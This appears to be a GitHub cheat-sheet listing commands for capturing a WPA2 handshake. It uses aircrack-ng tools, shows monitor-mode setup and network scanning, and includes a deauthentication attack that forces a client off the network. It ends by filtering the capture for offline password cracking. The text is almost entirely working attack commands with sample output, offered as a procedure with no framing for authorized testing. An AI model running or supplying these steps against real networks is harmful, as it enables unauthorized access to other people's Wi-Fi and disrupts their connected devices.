 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

#### Set channel if needed
```text
iw wlan0mon set channel 7
```

### Check for networks with WPS available
```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
30:94:8F:E8:89:5F  -25      240      131    0   6  130   WPA2 CCMP   PSK  linksys

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
30:94:8F:E8:89:5F  E4:84:D3:2E:1F:22  -38    1e- 1e   948      265
```

### Monitor/grab packets and wait for the handshake
```text
airodump-ng -c 6 --bssid 30:94:8F:E8:89:5F -w file wlan0mon
```

### De-auth for a seprate channel to spead up / bute force the handshake
```text
aireplay-ng -0 1 -a 30:94:8F:E8:89:5F -c E4:84:D3:2E:1F:42 wlan0
```

### once handshake has been collected ....


### Review packets captured
```text
aircrack-ng file-01.cap
```
```text
  #  BSSID              ESSID                     Encryption
   1  30:94:8F:E8:89:5F  linksys                WPA (1 handshake)
```

### Tidy up cap file and reduce size
```text
tshark -r file-01.cap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 30:94:8F:E8:89:5F" -2 -w out.cap -F pcap
```
### Review output file
```text
aircrack-ng out.cap
```







